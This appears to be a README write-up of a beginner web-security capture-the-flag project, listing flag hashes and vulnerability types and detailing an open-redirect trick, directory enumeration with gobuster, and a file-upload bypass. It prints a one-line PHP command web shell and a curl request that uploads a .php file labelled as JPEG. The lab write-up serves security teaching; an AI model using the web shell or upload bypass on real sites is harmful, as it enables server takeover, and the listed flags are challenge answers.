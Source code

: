 ### This is a project that is meant as an intro to web security in the form of a CTF challenge where we need to find 14 flags

### Flag 00 03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA SERVER SIDE VALIDATION

### Flag 01 10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5 SQL INJECTION

### Flag 02 1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0 VALIDATION-BYPASS, NEED SERVER SIDE VALIDATION

### Flag 03 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E this one we will never know what the vulnerability was ?? click on a button i guess

### Flag 04 f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 Referrer-Based Access Control Bypass and User-Agent Manipulation

### Flag 05 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d XSS, Cross site scripting

### Flag 06 b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 Bruteforce

### Flag 07 df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3 Weak Hash-based Authentication Bypass

### Flag 08 d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff Unprotected password file

### FLAG 09 b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 LOCAL FILE INCLUSION

### FLAG 10 F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188 SQL INJECTION

### FLAG 11 b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3

there is a bunch of redirect links at the bottom to twitter, instagram and so on

we can just modify the query from

```
http://localhost:8080/index.php?page=redirect&site=instagram
```

to anything

```
http://localhost:8080/index.php?page=redirect&site=ifoundavulnerability
```

and we get a flag

## FLAG 12 d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466

gobuster gave us robots.txt
which says to hid /whatever (already got the flag there) and /.hidden

there is a bunch of files and dir in /.hidden

tried to see if there was any meaning to the names of the dir and files but nothing
all files have a readme which taunts us like "Try again"

so we need to make a crawler, which we do and search for keyword flag and it works the first time, we could also have just removed all the few special messages
in the other readmes, or search by size but flag works

and we get

```
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```

in http://localhost:8080/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README

## FLAG 13 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8 SERVER SIDE VALIDATION

ADD IMAGE page

after trying a bunch of things, we can see that the server accepts .jpg files

and returns for example

```
/tmp/test.jpg succesfully uploaded.
```

however the image is not in the db we have access to through search img, not in the front page, there isn't a tmp dir we can reach
we also can't use local file inclusion to reach it

so even though the .jpg can technically be a script we could run there is nowhere we can reach it

however when uploading

```
<?php system($_GET['cmd']); ?>.jpg
```

we get back

```
/tmp/.jpg succesfully uploaded.
```

but that was not the vulnerability that we were supposed to find,

this works though

```
➜  darklyProject git:(master) ✗ curl -X POST 'http://localhost:8080/index.php?page=upload#' \
-H 'Content-Type: multipart/form-data' \
-F 'uploaded=@test.php;type=image/jpeg' \
-F 'MAX_FILE_SIZE=100000' \
-F 'Upload=Upload'
```

basically just sending the POST request with a .php file but setting the type as jpeg

and we get

```
>The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
```

### TO NOTE

➜ utenret gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt -b 200,975

```
➜  darklyProject git:(master) ✗ gobuster dir -u http://localhost:8080/ -w ../KaliLists/dirb/big.txt --exclude-length 975

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio                (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css                  (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors               (Status: 301) [Size: 193] [--> http://localhost/errors/]
/favicon.ico          (Status: 200) [Size: 1406]
/fonts                (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images               (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes             (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js                   (Status: 301) [Size: 193] [--> http://localhost/js/]
/robots.txt           (Status: 200) [Size: 53]
/whatever             (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================

```

```
darklyProject git:(master) ✗ gobuster dir -u http://localhost:8080/images/ -w ../KaliLists/dirbuster/directory-list-lowercase-2.3-medium.txt -x jpg,png,gif --exclude-length 975

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/images/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../KaliLists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,png,gif
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/search.png           (Status: 200) [Size: 49089]
/banner.jpg           (Status: 200) [Size: 511270]
/upload.png           (Status: 200) [Size: 64785]
/win.png              (Status: 200) [Size: 72726]
/win.jpg              (Status: 200) [Size: 43468]
/banner2.jpg          (Status: 200) [Size: 50867]
/404.jpg              (Status: 200) [Size: 27027]
/banner1.jpg          (Status: 200) [Size: 391182]
/nsa.png              (Status: 200) [Size: 133243]
/mailbox.png          (Status: 200) [Size: 49480]
/marvin.jpg           (Status: 200) [Size: 111300]
/search_img.png       (Status: 200) [Size: 17185]
/whoami.gif           (Status: 200) [Size: 1809804]
Progress: 830572 / 830576 (100.00%)
===============================================================
Finished
===============================================================
```
